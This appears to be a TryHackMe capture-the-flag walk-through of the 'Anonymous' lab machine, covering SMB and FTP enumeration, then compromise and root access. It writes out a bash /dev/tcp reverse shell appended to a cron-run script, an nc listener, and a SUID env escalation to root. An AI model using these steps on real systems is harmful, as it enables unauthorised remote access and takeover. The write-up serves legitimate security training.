[TryHackMe](https://tryhackme.com)

## Anonymous - Walk-through

### Welcome to the walk-through of the Anonymous room:

 
note:

if this walk-through has any typos or problems I am sorry in advance and I welcome any suggestions to improve the next walk-through. 
hope you enjoy it.

room description: 
According to the room description, this is Linux based machine built to "prove your understanding of the fundamentals".
so lets begin working on it!

 first things first , simple enumeration with Nmap: 
`nmap -A -sV 10.10.162.188 -oN nmap_report.txt`



as we can see we have open ports. let's start enumerate SMB protocol, I use enum4linux for enumeration.
 
`enum4linux -a 10.10.162.188`



we have list of share-names on the user's computer.
pics share directory is our interest.
so let's connect to it: 
`smbclient //10.10.162.188/pics -U user`



now after listing files in the pics directory, we can see we have two pictures. let's check these pictures by downloading them with `get` command.

lets see the pics!



little cuties with hidden but useless data.
this is the tricky part! after spending sometime for it and using different steganography tools like ExifTool, binwalk & Steghide I could not get any useful data so I turned to FTP protocol instead.



in nmap report we can see we have ftp-anon, with it we can log in with anonymous user and no password, let's try it:



checking the script directory, we know that we have interesting files!



clean.sh has very good permissions for us!

first, let us download and check each file hoping to get any good info.

clean.sh



removed_files.log



we can guess clean.sh file is run with crontab.

to_do.txt


well it's too late now!

we must find some way to append or edit clean.sh file we can not do it with FTP command so we use
`curlftpfs` , this tool mounts an FTP host as a local directory so then we can  edit clean.sh .

let's make directory for hosting FTP: 
`mkdir -p ~/mnt/ftpfs`

mount it to out machine: 
`curlftpfs anonymous@10.10.162.188 ~/mnt/ftpfs`

`cd` to it: 
`cd ~/mnt/ftpfs/`

now we can edit clean.sh 
`nano clean.sh`

we can append a little reverse shell in it:
I often use https://www.revshells.com/,
so let's make a one-line reverse shell. 
`bash -i >& /dev/tcp/10.8.7.90/8888 0>&1`

save clean.sh ,next we must run a listener: 
`nc -lvp 8888`

wait till crontab run clean.sh script or we can just run it: 
`./clean.sh`

we may see errors when we run it but nonetheless, we have our reverse shell start to run.





voila!  we have access to "tonamelessone" user.

checking what this user has in his directory we found our user flag.



now let's escalate our privilege, I wrote a little note about Linux privilege escalation: 
 https://github.com/WhiteOwl-Pub/Linux_privEsc_Notes
 it has good tips on it. check it out!

after some time, toying with different commands I check suid permissions:

`find / -type f -perm -04000 -ls 2>/dev/null`

checking the list with my fav site:
https://gtfobins.github.io/#+suid for privilege escalation:

find out we can use env to privilege escalation to root!

now we cd to /usr/bin/env: 
`cd /usr/bin/env`

and run: 
`./env /bin/sh -p`



if you want you can run this command to stabilize shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

for finding root flag first, we check root home directory. the alternative way is using find command since we have the file name.
know that we can use find command if we have a portion of the file name too.





well done we found the final flag.

hope you enjoy it!
